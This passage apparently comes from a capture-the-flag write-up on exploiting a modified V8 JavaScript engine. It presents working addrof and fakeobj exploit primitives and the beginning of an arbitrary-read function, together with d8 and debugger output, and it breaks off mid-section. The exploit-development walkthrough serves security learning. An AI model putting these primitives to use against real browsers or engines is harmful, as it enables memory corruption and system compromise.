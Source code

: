    
    
    var arr = [1.1];
    var float_array_map = ftoi(arr.GetLastElement());
    var obj_array_map = float_array_map + 0x50n;
    
    function addrof(target) {
        arr.SetLastElement(itof(obj_array_map));
        arr[0] = target;
        arr.SetLastElement(itof(float_array_map));
        return ftoi(arr[0]) & 0xffffffffn;
    }
    

And it works:

    
    
    d8> obj = {"findme": 1};
    {findme: 1}
    d8> %DebugPrint(obj)
    0x168308086861 <Object map = 0x168308244e29>
    {findme: 1}
    d8> addrof(obj).toString(16)
    "8086861"
    

#### fakeobj

fakeobj is another exploit primitive that is the inverse of addrof. If addrof
lets me find out the address of an object, fakeobj lets let create an object
anywhere in memory and then read from and write to it. I’ll set the address
into place while `arr` is a float array, and then switch it to an object
array. Now the first half of the double I wrote will be handled as a
compressed pointer, so I can get that object and return it. I’ll also set
`arr` back to a float array before returning.

    
    
    function fakeobj(addr) {
        arr[0] = itof(addr);
        arr.SetLastElement(itof(obj_array_map));
        let fake = arr[0];
        arr.SetLastElement(itof(float_array_map));
        return fake;
    }
    

#### arbread

With these two primitives, I can now create an arbitrary read function,
arbread. I’ll start by creating another floats array, but this time, the first
element will be the float array map (and properties). I can look at the memory
involved here (I’ve labeled the memory in that last dump):

    
    
    d8> var arr2 = [itof(float_array_map),1.1, 2.2, 3.3];
    undefined
    d8> %DebugPrint(arr2)
    0x08750808692d <JSArray[4]>
    [4.73859563718219e-270, 1.1, 2.2, 3.3]
    d8> ^C
    Thread 1 "d8" received signal SIGINT, Interrupt.
    __GI___libc_read (nbytes=0x400, buf=0x55be0d8e3eb0, fd=0x0) at ../sysdeps/unix/sysv/linux/read.c:26
    26      ../sysdeps/unix/sysv/linux/read.c: No such file or directory.
    gef➤  x/16xw 0x08750808692d-1-0x30
    0x875080868fc:  0x00000000      0xfffffffe      0x08040a3d      0x00000008 <-- ?, ?, FixedArray map, len
    0x8750808690c:  0x08241909      0x080406e9      0x9999999a      0x3ff19999 <-- [0] == map + props, [1] == 1.1